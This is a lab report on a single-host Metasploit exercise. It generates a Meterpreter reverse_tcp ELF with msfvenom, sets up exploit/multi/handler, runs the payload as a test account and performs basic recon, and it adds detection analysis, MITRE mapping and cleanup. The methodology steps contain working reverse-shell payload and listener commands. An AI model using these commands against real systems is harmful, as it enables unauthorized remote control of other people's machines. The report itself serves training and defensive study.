# Basic Exploitation Lab with Metasploit Framework

**Author:** Lorenzo Iwao Akizuki

**Lab Date:** October 22, 2026

**Report Date:** October 29, 2026
**Version:** 1.2

---

## Table of Contents

1. Executive Summary
2. Lab Objectives
3. Environment and Tools
4. Step-by-Step Methodology
5. Results
6. Security Analysis and Limitations
7. Lessons Learned
8. Conclusions and Recommendations
9. Evidence and Reproducibility Notes
10. Suggested Repository Structure
11. Disclaimer
12. References

---

## Executive Summary

This report documents a controlled basic exploitation lab using **Metasploit Framework** on a single Kali Linux host. The attacker and simulated victim roles ran on the same machine, so the exercise does not demonstrate initial access to a separate remote host. A low-privilege account was created to represent a typical victim, a Meterpreter *payload* was generated with `msfvenom`, delivered and executed locally, and a remote-control session was established through `exploit/multi/handler`. Post-exploitation reconnaissance followed, covering user identity, system architecture, and operating system information. The lab also explored the defensive perspective by identifying forensic evidence in system logs (`journalctl`). Finally, a cleanup procedure was performed to restore the lab environment.

---

## Lab Objectives

- Create a low-privilege account to simulate a victim context (not a software vulnerability).
- Generate a Meterpreter *reverse shell* payload for Linux x64 with `msfvenom`.
- Configure and run a Metasploit listener (`exploit/multi/handler`) to receive the incoming connection.
- Simulate payload delivery and execution by the victim.
- Interact with the Meterpreter session and perform post-exploitation reconnaissance.
- Analyze the incident from a **blue team** perspective, identifying available detection mechanisms.
- Perform cleanup to restore the system to its initial state.

---

## Environment and Tools

| Component | Details |
| --- | --- |
| Operating system (attacker/victim) | Kali Linux (Debian, Linux 7.1.5+kali-amd64) |
| Exploitation framework | Metasploit Framework v6.5.3-dev |
| Payload generation tool | msfvenom |
| Payload type | `linux/x64/meterpreter/reverse_tcp` |
| Architecture | x64 |
| Output format | ELF (`shell64.elf`) |
| Listening port (LPORT) | 4444 |
| Local IP address (LHOST) | 192.168.122.58 (`eth0` interface) |
| Simulated victim user | `victim` (unprivileged account with password login disabled) |

> **Scope:** `LHOST` is the callback address configured in the payload and handler. No `RHOST` option was used in this exercise. The controller and simulated victim account ran on the **same host**. No network intrusion, vulnerability exploitation, privilege escalation, lateral movement, or persistence was demonstrated. Only perform this activity in systems you own or are explicitly authorized to test.

---

## Step-by-Step Methodology

### 1. Simulating the Vulnerable Environment

An unprivileged Linux user was created to represent a typical low-privilege victim:

```bash
sudo adduser victim --disabled-password --gecos ""
```



### 2. Identifying the Local IP Address (LHOST)

The local IP address was identified to configure the payload and listener:

```bash
ip a
```

The `eth0` interface showed the following configuration:

```
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP
    link/ether 52:54:00:5d:8b:c1
    inet 192.168.122.58/24 brd 192.168.122.255 scope global dynamic eth0
```

**Identified local IP address:** `192.168.122.58`



### 3. Generating the Payload with msfvenom

A Meterpreter payload was generated in ELF format for Linux x64:

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.122.58 LPORT=4444 -f elf -o shell64.elf
chmod +x shell64.elf
```

**Relevant output:**

```
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: shell64.elf
```

> Lines beginning with `[-]` are informational notices rather than errors: they indicate that msfvenom automatically selected the Linux platform and x64 architecture based on the requested payload.



### 4. Delivering the Payload

The payload was copied into the victim user’s home directory, and file ownership was updated:

```bash
sudo cp shell64.elf /home/victim/
sudo chown victim:victim /home/victim/shell64.elf
```



This was a **manual local file copy**, not a demonstration of phishing, USB delivery, or exploitation of a remote host. Those mechanisms are possible real-world contexts but were **not tested** here.

### 5. Configuring the Listener (Handler)

Metasploit was started, and the `exploit/multi/handler` module was configured to receive the reverse connection:

```
msfconsole
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.122.58
set LPORT 4444
run
```

**Relevant output:**

```
=[ metasploit v6.5.3-dev ]
+ -- --=[ 2,684 exploits - 1,352 auxiliary - 2,604 payloads ]
+ -- --=[ 435 post - 57 encoders - 14 nops - 12 evasion ]

msf > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set PAYLOAD linux/x64/meterpreter/reverse_tcp
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 192.168.122.58
LHOST => 192.168.122.58
msf exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.122.58:4444
```



### 6. Simulating Execution by the Victim

In a second terminal, the payload was executed under the simulated victim account:

```bash
sudo -u victim /home/victim/shell64.elf
```



### 7. Establishing the Meterpreter Session

After the payload was executed, the handler received the incoming connection:

```
[*] Sending stage (3106788 bytes) to 192.168.122.58
[*] Meterpreter session 1 opened (192.168.122.58:4444 -> 192.168.122.58:46896) at 2026-10-22 23:33:56 -0400

meterpreter >
```



### 8. Interacting with the Session

```
background
sessions
sessions -i 1
```

**Active sessions:**

| Id | Name | Type | Information | Connection |
| --- | --- | --- | --- | --- |
| 1 | — | meterpreter x64/linux | victim @ kali | 192.168.122.58:4444 -> 192.168.122.58:46896 (192.168.122.58) |



### 9. Post-Exploitation Reconnaissance

The following commands were run in the Meterpreter session:

```
getuid
sysinfo
shell
```

**Observed output:**

```
meterpreter > getuid
Server username: victim
meterpreter > sysinfo
Computer      : kali
OS            : Debian (Linux 7.1.5+kali-amd64)
Architecture  : x64
BuildTuple    : x86_64-linux-musl
Meterpreter   : x64/linux
meterpreter > shell
Process 93524 created.
Channel 1 created.
```



The following additional commands were executed inside the obtained shell:

```bash
whoami
id
uname -a
```

**Observed output:**

```
whoami
victim
id
uid=1001(victim) gid=1001(victim) groups=1001(victim),100(users)
uname -a
Linux kali 7.1.5+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 7.1.5-1kali1 (2026-07-29) x86_64 GNU/Linux
```



These commands confirmed the session user’s identity, system architecture, and environment details. **No privilege escalation or pivoting was attempted or demonstrated.**

### 10. Detection Perspective (Blue Team)

Basic detection mechanisms available to a defensive team were evaluated:

**a) Inspecting the victim’s command history:**

```bash
sudo cat /home/victim/.bash_history
```

Observed result: `cat: /home/victim/.bash_history: No such file or directory`. This means the history file was absent at the time of inspection; it does **not** prove that no shell commands were executed or that all logging was unavailable.



**b) Searching for suspicious binaries:**

```bash
sudo find /home -name "*.elf"
```

**Observed output:**

```
/home/kali/shell64.elf
/home/victim/shell64.elf
```



**c) Reviewing system logs (sudo command execution):**

```bash
sudo journalctl | grep -E 'useradd|elf'
```

**Recorded log excerpt (from the original lab notes; the filter above is corrected for reproducibility):**

```
Oct 22 23:24:51 kali sudo[68591]: kali : TTY=pts/1 ; PWD=/home/kali ; USER=root ; COMMAND=/usr/bin/chown victim:victim /home/victim/shell64.elf
Oct 22 23:25:39 kali sudo[69751]: kali : TTY=pts/1 ; PWD=/home/kali ; USER=root ; COMMAND=/usr/bin/cp shell64.elf /home/victim/
Oct 22 23:26:43 kali sudo[71299]: kali : TTY=pts/1 ; PWD=/home/kali ; USER=victim ; COMMAND=/home/victim/shell64.elf
Oct 22 23:29:01 kali sudo[74705]: kali : TTY=pts/1 ; PWD=/home/kali ; USER=victim ; COMMAND=/home/victim/shell64.elf
Oct 22 23:33:54 kali sudo[81999]: kali : TTY=pts/1 ; PWD=/home/kali ; USER=victim ; COMMAND=/home/victim/shell64.elf
Oct 22 23:47:56 kali sudo[102334]: kali : TTY=pts/1 ; PWD=/home/kali ; USER=root ; COMMAND=/usr/bin/find /home -name *.elf
```



The displayed `sudo` records provide evidence of commands used to copy, execute, and inspect the test ELF. They do **not** independently prove every process, file access, or network event; additional audit, process, and network telemetry would be needed for a fuller reconstruction. The recorded timestamps also show repeated execution attempts, but their causes were not investigated in this report.

### 11. Cleanup Procedure

The following cleanup commands were recorded to remove the simulated victim account and its copy of the payload:

**Closing the active session:**



```
meterpreter > exit
[*] Shutting down session: 1
[*] 192.168.122.58 - Meterpreter session 1 closed. Reason: Died
[*] 192.168.122.58 - Meterpreter session 1 closed. Reason: User exit
msf exploit(multi/handler) > exit
```

**Removing the payload and victim account:**

```bash
sudo rm /home/victim/shell64.elf
sudo deluser --remove-home victim
```



The output documents session termination and the intended deletion actions. A final verification of account removal, residual files, active processes, and network listeners was **not included** in the supplied evidence. The original `shell64.elf` in `/home/kali` was not listed for deletion.

---

## Results

| Stage | Result |
| --- | --- |
| Victim account creation | Completed without issues |
| Payload generation | 250-byte ELF file generated successfully (`shell64.elf`) |
| Payload delivery | Copied to the victim account with ownership assigned |
| Handler configuration | Listener active at `192.168.122.58:4444` |
| Payload execution | Reverse connection established successfully |
| Meterpreter session | Session 1 opened (`victim @ kali`) |
| Post-exploitation reconnaissance | UID, GID, architecture, and kernel version obtained |
| Detection (Bash history) | No evidence available (history not generated) |
| Detection (binary search) | `shell64.elf` found in both user directories |
| Detection (`journalctl`) | Selected `sudo` command events observed; not a complete activity timeline |
| Cleanup | Session closure recorded; deletion commands documented, but post-cleanup verification not shown |

---

## Security Analysis and Limitations

This lab did **not** exploit a software vulnerability or a registered CVE. It demonstrated execution of a purpose-built reverse-connection ELF under a test account, followed by a Meterpreter session. The file was placed and executed manually by the tester; no real-world delivery vector or user deception was tested.

| Aspect | Details |
| --- | --- |
| Associated CVE | Not applicable (N/A): payload execution rather than exploitation of a software flaw |
| Execution path | Tester initiated local ELF execution as `victim` via `sudo -u victim` |
| Privileges obtained | Same as the account executing the payload (`victim`, without elevated privileges) |
| Risk interpretation | Remote control of a user context can be significant; a formal severity score was not calculated for this simulated scenario |
| Persistence | Not implemented in this lab |

### MITRE ATT&CK Mapping

The following mapping is **analytical context**, not evidence that an external attacker used these techniques in this lab.

| Technique | Relationship to this lab | Evidence / limitation |
| --- | --- | --- |
| [T1204.002: User Execution, Malicious File](https://attack.mitre.org/techniques/T1204/002/) | **Partial analogy** | An ELF was executed under the victim account, but execution was initiated deliberately by the tester; no social engineering or independent victim action occurred. |
| [T1059.004: Command and Scripting Interpreter, Unix Shell](https://attack.mitre.org/techniques/T1059/004/) | **Observed behavior** | A shell channel was opened, and `whoami`, `id`, and `uname -a` were run. |
| [T1082: System Information Discovery](https://attack.mitre.org/techniques/T1082/) | **Observed behavior** | `sysinfo` and `uname -a` retrieved OS, architecture, and kernel details. |
| [T1033: System Owner/User Discovery](https://attack.mitre.org/techniques/T1033/) | **Observed behavior** | `getuid`, `whoami`, and `id` identified the execution account. |

The exercise did not evaluate exploit reliability, phishing success, stealth, persistence, privilege escalation, or lateral movement.

### Detection Opportunities and Evidence Gaps

| Evidence source | What the lab actually showed | Improvement for a future authorized test |
| --- | --- | --- |
| Bash history | `.bash_history` was absent | Collect process-execution telemetry instead of relying on interactive shell history alone. |
| Filesystem search | ELF copies found under `/home/kali` and `/home/victim` | Record file hashes and creation/modification metadata to improve evidence integrity. |
| `journalctl` | `sudo` records for file operations and test execution | Correlate timestamps with auditd/EDR process events and network-connection logs. |
| Network activity | Meterpreter handler reported a TCP session | Capture authorized network telemetry to corroborate the connection independently. |

**Key limitation:** A successful Meterpreter session demonstrates payload execution and connectivity in this local test setup, not a remotely exploitable vulnerability.

---

## Lessons Learned

- **A reverse-shell session is not proof of a vulnerability.** The exercise is useful for practicing the Metasploit workflow (payload generation, handler setup, session interaction), but it should not be described as "exploiting" a target — no flaw was identified or abused.
- **Evidence quality depends on what is collected during the test, not after.** Several gaps identified here (file hashes, process telemetry, network capture, post-cleanup verification) could only have been closed by instrumenting the environment *before* running the payload. For future labs, decide on an evidence checklist up front.
- **Log filters matter for reproducibility.** A one-character difference (`grep 'a|b'` vs. `grep -E 'a|b'`) silently changes what a defender sees in `journalctl`. Any command meant to be reproduced by someone else should be tested, not just assumed to work.
- **Precise wording avoids overclaiming.** Phrases like "no bash history was generated" sound like a conclusion about attacker behavior, when the more accurate statement is about the absence of a file at inspection time. This distinction matters in real incident-response writing, where overclaiming can mislead decisions.
- **Local, single-host labs have a narrower scope than they can appear to have.** Because LHOST and the simulated victim shared the same machine, nothing here demonstrates network-based delivery, remote exploitation, or lateral movement — this should be stated explicitly rather than left for the reader to infer.

---

## Conclusions and Recommendations

**Conclusions**

- The lab demonstrated payload generation, local delivery, deliberate execution under a test account, session establishment, and basic post-execution reconnaissance on a single host.
- The Meterpreter session exposed the test account identity and host characteristics without granting root privileges.
- From a defensive perspective, `journalctl` and filesystem inspection provided useful evidence, while the absent Bash history and lack of process/network telemetry limited the reconstruction.

**Recommendations**

- Implement application allowlisting to prevent unauthorized binaries from running.
- Centralize process-execution and endpoint detection and response (EDR) telemetry; treat shell history as supplementary rather than authoritative evidence.
- Consider alerting on unexpected ELF execution and suspicious process/network behavior, with tuning to reduce false positives.
- Correlate `sudo`, process creation, file provenance, and outbound TCP activity in a centralized SIEM.
- Conduct periodic tests in controlled, isolated environments and document findings using a reproducible methodology.
- For the next iteration of this lab, capture file hashes (`sha256sum shell64.elf`) immediately after generation and again after delivery, and run explicit post-cleanup checks (`id victim`, `ps aux | grep shell64`, `ls -la /home/kali/shell64.elf`) before declaring the environment restored.

---

## Evidence and Reproducibility Notes

This revision includes the original screenshots under `screenshots/`, referenced by relative path from each step above. The original notes documented 13 numbered figures and two additional unnumbered evidence references (Bash history check and session shutdown); all 15 are included here with the same numbering used in the source material.

The log excerpts and command outputs above are preserved from the original report. Apart from the documented `grep -E` correction, this revision does not claim to have rerun the laboratory. The original log excerpt should be treated as a recorded observation, not verified output of the corrected filter.

For stronger reproducibility in a future lab, record the exact test boundary, hashes of test artifacts, a redacted event timeline, and post-cleanup verification. Avoid committing the executable payload itself to the public repository. Redact any credentials, tokens, or unrelated private information visible in screenshots before publishing.

---


## Disclaimer

*This lab was conducted in a controlled, isolated environment (Kali Linux) for educational purposes only. I am not responsible for any misuse of the techniques described here.*

## References

- Official Metasploit Framework documentation: [docs.metasploit.com](https://docs.metasploit.com/)
- MITRE ATT&CK: [T1204.002](https://attack.mitre.org/techniques/T1204/002/), [T1059.004](https://attack.mitre.org/techniques/T1059/004/), [T1082](https://attack.mitre.org/techniques/T1082/), [T1033](https://attack.mitre.org/techniques/T1033/)
- Oehley, C. (n.d.). Exploitation Basics With Metasploit \[Lab\]. Exploitation and Penetration Testing with Metasploit. Coursera. <https://www.coursera.org/learn/exploitation-and-penetration-testing-with-metasploit>
